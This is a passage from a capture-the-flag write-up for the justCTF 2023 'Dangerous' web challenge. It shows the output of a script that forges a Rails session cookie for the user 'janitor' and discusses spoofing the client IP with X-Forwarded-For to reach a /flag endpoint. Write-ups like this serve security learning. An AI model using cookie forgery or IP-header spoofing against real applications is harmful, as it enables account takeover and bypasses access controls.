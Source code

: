 Storing our current session cookie as a string in the `c` variable and running the script, generates our malicious session cookie:

```bash
$ ruby solve.rb
{"tracking"=>
  {"HTTP_USER_AGENT"=>
    "mozilla/5.0 (windows nt 10.0; win64; x64) applewebkit/537.36 (khtml, like gecko) chrome/114.0.5735.134 safari/537.36"},
 "session_id"=>
  "ebd98ad5df90a79d72be1f55ad8635203ec552fa4793142ea5ba776a7819497a",
 "csrf"=>"oXPWvjH9GtY3QK5xUX4HvDGk6OfkaKsFmYJWh4_AzxY=",
 "username"=>"janitor"}

RKfhit9qyT9scO36jq369gFAXJ%2FlC81vuBLrWiUIaGzhQVpWfem3hjuPhtUuKdmjxJsT1DagHNNG17tQlHkXGCd8GOm4FMDh1dT%2Bfwiz%2F98J9gh1DkDJWB%2F3ERknsmBxLFV4MH4IUL6TOg2p8JKmnPf7XiRhJLMpn7Xh6whpJzNbxZY2qp9Fh62f4qKDveD7Fkn2h53Iyq1%2Fp9eJUfF20Yynxb4lK2ebnqWcC39uErgRuv70VIelXFFpGB75ZGPI0ub0xfHZpiWlwbOVjjL1jQDCAN5N1033kerEAwhXODGiQ0RN4fSU44gb0pqqysE7rYOVaretau6EIj0UywgJB2yAsssnyFMGSGbx9GU4YXjMFS54WOZVZbshA0YLocPjKNXQw9y36izOF4Kh2wVA8689PjGhUwLOd319zA4achQWwsZLfZG8F8TerjcCTNlGrhgGX%2FE%3D--%2FWfXJdhObyH7tls%2F--yXzsZnsXQipiA4LAPGxMAA%3D%3D
```

We can attempt to navigate to the `/flag` endpoint using this cookie:

![](/assets/img/writeups/justCTF2023/Dangerous%20Writeup.005.png)

As expected, we're still unable to pass the IP check. There are [many](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/special-http-headers#headers-to-change-location) HTTP headers that can be used to spoof our IP address; perhaps the most well known is `X-Forwarded-For`.

I initially tried supplying `X-Forwarded-For: 127.0.0.1` in hopes that we just needed to appear as if we were coming from within the local network, but this did not work. So we do not know the IP address needed..

My teammate [dayt0n](https://dayt0n.com/) noticed that the `replies` SQLite table in the code contains an `ip` column:

